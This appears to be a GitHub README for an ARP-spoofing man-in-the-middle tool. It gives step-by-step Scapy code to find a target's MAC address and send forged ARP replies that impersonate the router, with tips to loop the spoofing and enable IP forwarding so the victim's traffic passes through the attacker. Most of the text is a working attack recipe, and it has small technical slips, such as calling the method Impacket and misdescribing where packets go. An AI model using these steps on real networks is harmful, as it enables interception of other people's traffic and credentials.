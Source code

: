 # ArpSpoof-MITM-Framework

---------------------------------------------------------Dappt---------------------------------------------------------

Script Usage (attack on a network with 3 machines: router, attacker, target):

        [-] Attacker sends ARP request to broadcast (everyone on LAN) in order to receive a response from someone who knows
            where the target machine is located 
            
            --> This request contains the mac address of broadcast (destination) and the
                IP address of the target machine 
            
            --> The request essentially asks everyone on the network (through the broadcast address) who has {targetIP}? 
                Hopefully a machine on the network who knows the location (MAC address of target machine) will respond with the 
                information we are looking for

        [-] Now that we have the MAC address of the target machine we can use it to craft a malicious packet that will tell
            the target machine that our MAC address is the same as the routers MAC address
            
            --> This will cause every outgoing packets from the target machine will be sent to both the router and the target
                machine
    
    Some useful Scapy commands:

        [-] ls(ARP) --> will list all fields required by an ARP packet
        
        [-] important fields: op, hwsrc,psrc, hwdst, pdst
        
        [-] packet = ARP(pdst='<TARGET IPADDR>') --> set pdst (destination address) to TARGETS IPADDR
        
        [-] packet.show --> show the current state of the packet being crafted
        
        [-] packet.op = 1 --> sending request --> "who has ..."
        
        [-] packet.op = 2 --> sending response

    Methodology: 

        [-] Send arp request through the broadcast MAC address, every machine on the LAN will receive 
            request and possibly send the reply
        
        [-] Impacket (manually):
            
            Getting mac address of target machine w/ spoofed ARP request :
            
                [-] broadcast = Ether(dst='ff:ff:ff:ff:ff:ff') --> Broadcast Address
                
                [-] arp_layer = ARP(pdst='{TARGETIP}')
                
                [-] entire_packet = broadcast/arp_layer --> combines arp_layer and broadcast layer into packet
                
                [-] answer = srp(entire_packet, timeout=2, verbose=True)[0] --> sending request to broadcast
                
                [-] print(answer) --> will show request and response if any received
                
                [-] print(answer[0])
                
                [-] target_mac_address = answer[0][1].hwsrc --> get mac address of target                                                                                                                                                                                                                                                                                  
                
                [-] print(target_mac_address)

            Craftinfg Malicious packet:

                [-] We are essentially going to craft a packet that will tell the target machine that
                    the attacker machine is a router, so it sends all of its packets to the attacker machine
                
                [-] packet = ARP(op=2, hwdst=target_mac_address, pdst='192.168.0.131', psrc='192.168.0.1')
                    
                    --> psrc is address of machine we want to impersonate (router)
                    --> run `netstat -nr` in terminal to find addr of router on your network (gateway)
                
                [-] packet.show() will show the contents of our malicious packet
                
                [-] send(packet, verbose=False) --> sends malicious packet to spoof targets ARP table
            
            Arp-tables on target machine:

                [-] You can run the command `arp -a` on the target machine before sending the malicious packet, 
                    and again after sending the malicious packet to confirm if we successfully spoofed the arp
                    tables on the target machine

[!] Script should be run in a while loop to continuosly spoof the targets arp tables since the target machine will also still 
    send the same ARP requests we are sending still

[!] If the target machine is unable to access the internet after it has been spoofed then you may need to run this command on your 
attacker machine to forward the packets: 

    [-] echo 1 >> /proc/sys/net/ipv4/ip_forward                                                                                                                                                                                                                                                                            



---------------------------------------------------------Dappt---------------------------------------------------------
